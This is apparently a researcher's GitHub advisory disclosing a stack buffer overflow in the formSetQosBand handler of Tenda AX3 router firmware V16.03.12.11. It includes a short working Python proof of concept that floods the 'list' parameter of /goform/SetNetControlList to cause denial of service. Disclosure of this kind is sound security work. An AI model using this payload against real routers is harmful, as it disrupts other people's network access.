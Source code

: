 Information
===========

**Vendor of the products**: Tenda <br>

**Vendor's website**: https://www.tenda.com.cn <br>

**Reported by**: korey0sh1(korey0sh2@gmail.com) <br>

**Affected products**: Tenda AX3 <br>

**Affected firmware version**: V16.03.12.11 <br>

**Firmware download address**: https://www.tenda.com.cn/download/detail-3476.html <br>

Overview
===========

**Tenda AX3 V16.03.12.11** has a **stack buffer overflow** vulnerability detected at function **formSetQosBand**. This vulnerability allows attackers to cause a Denial of Service (DoS) via the **list** parameter . <br>

Vulnerability details
=====================
The vulnerability is detected at **/bin/httpd** <br>

In the function **formSetQosBand**, the content obtained by program through parameter **list** given by http is passed to variable **v4**. Variable **v4** enters the function **set_qosMib_list** as a parameter, and a stack overflow vulnerability exists within **set_qosMib_list** <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/8.png) <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/9.png) <br>
<br>

Proof of Code
====================
```python
from pwn import *
import requests

url = "http://192.168.0.1/goform/SetNetControlList"

payload = "a"*0x1000
data = {
    "list": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

Attack Demo
========
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/10.png)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/11.png)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/12.png)

